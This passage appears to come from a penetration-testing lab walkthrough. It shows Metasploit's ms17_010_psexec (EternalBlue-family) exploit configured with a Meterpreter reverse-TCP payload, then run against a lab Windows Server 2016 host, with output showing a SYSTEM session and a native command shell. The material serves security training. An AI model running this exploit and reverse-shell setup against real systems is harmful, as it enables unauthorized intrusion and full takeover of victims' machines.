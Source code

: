 ```shell
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

This time, we kept it simple and just used a `windows/meterpreter/reverse_tcp` payload. You can change this as you wish for a different shell type or obfuscate your attack more, as shown in the previous payloads sections.

4. Execute Attack, and Receive A Callback :

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Success! We have landed our exploit and gained a shell session.

5. Identify the Native Shell :

```shell
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
